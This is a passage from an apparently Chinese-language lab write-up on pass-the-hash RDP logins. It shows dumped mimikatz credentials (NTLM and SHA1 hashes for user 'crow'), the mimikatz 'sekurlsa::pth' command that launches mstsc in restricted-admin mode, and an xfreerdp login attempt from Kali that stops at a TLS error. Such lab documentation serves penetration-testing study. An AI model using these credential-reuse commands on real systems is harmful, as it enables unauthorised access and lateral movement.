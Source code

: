     
    
     192.168.135.133  
      
    [00000003] Primary  
      * Username : crow  
      * Domain   : WIN-OE76K6VTLBR  
      * NTLM     : 570a9a65db8fba761c1008a51d4c95ab  
      * SHA1     : 759e689a07a84246d0b202a80f5fd9e335ca5392  
    

在`Windows10`上用`mimikatz`来进行`hash`登录的命令：

    
    
    privilege::debug  
      
    sekurlsa::pth /user:crow /domain:WIN-OE76K6VTLBR /ntlm:570a9a65db8fba761c1008a51d4c95ab "/run:mstsc.exe /restrictedadmin"  
    

![]()image.png

此时`win10`上出现了这个问题：

    
    
    出现身份验证错误。  
    要求的函数不受支持  
    元程计算机: 192.168.135.133  
    这可能是由于 CredsSP 加密 Oracle 修iE若要了解详细信息，请访问 https://go.microsoft.com/fwlink/?linkid=866660  
    

这个我看到网上有非常多的方法，在攻防中遇到过好多次，最好的方法就是换一个客户端去连接，在这使用`Windows server2019`来连接：

![]()image.png

到这里就可以证明环境是没有问题的，接下来就看`kali`了。

# 3\. kali下的FreeRDP

看下当前`FreeRDP`的版本：

![]()image.png

此时如果用明文登录的话，命令应该是这样的：

    
    
    xfreerdp /u:crow /p:Admin@123 /v:192.168.135.133:3389  
    

`xfreerdp`的命令改动非常大，网上好多教程命令都对不上了，但是用这种方法登录的话，会遇到问题：

![]()image.png

    
    
    [10:59:55:669] [40228:40229] [ERROR][com.freerdp.core] - transport_connect_tls:freerdp_set_last_error_ex ERRCONNECT_TLS_CONNECT_FAILED [0x00020008]  
    
